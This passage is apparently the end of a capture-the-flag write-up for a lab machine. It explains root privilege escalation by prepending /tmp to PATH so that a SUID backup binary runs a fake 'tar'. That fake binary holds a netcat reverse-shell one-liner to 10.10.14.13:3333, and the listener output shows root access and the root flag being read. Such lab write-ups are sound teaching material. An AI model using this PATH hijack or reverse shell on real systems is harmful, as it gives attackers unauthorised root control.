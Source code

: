 When a command is executed without using an absolute (`absolute: /usr/bin/tar vs relative: tar`) path, it first checks to see if that binary is located anywhere in the PATH environment variable and it checks in order from the first section of the PATH to the last section. By prepending `/tmp` at the beginning we've essentially taken over that binary with our own since it will be ran before the actual binary the author of the `/usr/bin/pandora_backup` author intended. And since the SUID bit is set and owned by root, our binary will be ran by the `root` user. 

```
$ cat /tmp/tar
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.13 3333

$ /usr/bin/pandora_backup
...
```

Now we wait with a listener on port 3333
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 3333        
listening on [any] 3333 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.136] 43814
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=1000(matt) groups=1000(matt)
# whoami
root
# cat /root/root.txt
[REDACTED]

```

---
## Loot

- user.txt
- root.txt